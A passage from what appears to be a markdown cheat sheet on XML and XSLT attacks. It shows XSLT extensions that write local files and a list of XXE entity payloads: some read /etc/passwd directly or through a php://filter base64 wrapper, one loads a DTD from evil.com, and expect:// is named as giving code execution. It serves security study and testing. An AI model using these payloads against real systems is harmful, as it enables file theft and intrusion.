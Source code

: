     - <div class="spoiler"><div class="spoiler-title"><i>
        libxslt esxl:document extension
        </i></div><div class="spoiler-text" markdown="1">

            <xsl:template match="/">
                <exsl:document href="local_file.txt">
                    <xsl:text>Hello World to local file.</xsl:text>
                </exsl:document>
            </xsl:template>

        </div>
        </div>

    - <div class="spoiler"><div class="spoiler-title"><i>
        Saxon PE / Saxon EE file:create-dir extension
        </i></div><div class="spoiler-text" markdown="1">

            <xsl:variable name="file" as="xs:string" select="'local_file.txt'" />
            <xsl:variable name="text" as="xs:string" select="'Hello World to local file.'" />
            <xsl:template match="/">
                <xsl:sequence select="file:append-text($file, $text)" />
            </xsl:template>

        Other functions: file:append-text(), file:move(), file:copy(), file:delete(), file:exists(), file:is-file(), file:is-dir(), file:read(), file:write()

        </div>
        </div>

<br>

---

## Attacks extensions

- **filters** and **wrappers** - XML parsers can provide filters to use for external entities.

    <br>
    ***PHP*** [filters](http://php.net/manual/en/wrappers.php):

    - file:// http:// https:// ftp:// data://

        `<!ENTITY xxe SYSTEM "file:///etc/passwd">`

        `<!ENTITY % xxe SYSTEM "http://evil.com/evil.dtd">`

        `<!ENTITY xxe SYSTEM "data://text/plain;base64,aGVsbG8gd29ybGQ=">` *('hello world')*

    - php:// (accessing various I/O streams)

        `<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">`

    - zlib:// rar:// phar://
        
        ssh2://

        glob:// ogg://

    - expect:// (gives RCE)
